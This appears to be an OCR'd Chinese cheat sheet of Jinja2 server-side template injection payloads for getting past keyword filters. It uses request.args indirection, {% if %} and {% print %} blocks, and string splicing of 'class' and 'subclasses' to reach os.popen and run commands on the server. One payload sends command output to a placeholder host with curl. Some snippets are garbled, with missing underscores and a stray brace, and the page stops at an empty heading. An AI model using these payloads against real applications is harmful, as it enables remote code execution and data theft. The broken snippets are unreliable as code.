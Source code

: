 ### 过滤_

*  request对象绕过

  ```
  ?name={{&#39;&#39;[request.args.v1][request.args.v2][1][request.args.v3]()[139][request.args.v4][request.args.v5][request.args.v6][request.args.v7](request.args.v8)}}&amp;v1=__class__&amp;v2=__mro__&amp;v3=__subclasses__&amp;v4=__init__&amp;v5=__globals__&amp;v6=__builtins__&amp;v7=eval&amp;v8=__import__(&#34;os&#34;).popen(&#34;whoami&#34;).read()
  ```

### 过滤{{

* {% if ... %}1{% endif %}

  使用 {% if ... %}1{% endif %} 配合 os.popen 和 curl 将执行结果外带出来，不外带的话执行结果无回显

  ```
  {% if &#39;&#39;.__class__.__base__.__subclasses__()[139].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).popen(&#34;curl http://xxx.xxx.xxx.xxx:12345/?i=`whoami`&#34;).read()&#39;) %}1{% endif %}
  ```

* {%print(......)%}

  ```
  {% print(&#39;&#39;.__class__.__base__.__subclasses__()[139].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).popen(&#34;ls&#34;).read()&#39;)) %}
  ```

### 过滤subclasses

拼凑法

```
{{&#34;&#34;.class.bases[0].subclasses()}}	# 原
{{&#34;&#34;.class.bases[0]&#39;subcla&#39;&#43;&#39;sses&#39;}}	# 后
```

### 过滤class

使用session

```
{{session[&#39;cla&#39;&#43;&#39;ss&#39;].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}	# 原

```

多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```
{{session[&#39;__cla&#39;&#43;&#39;ss__&#39;].__mro__[12]}}
request[&#39;__cl&#39;&#43;&#39;ass__&#39;].__mro__[12]}}
```

### timeit姿势
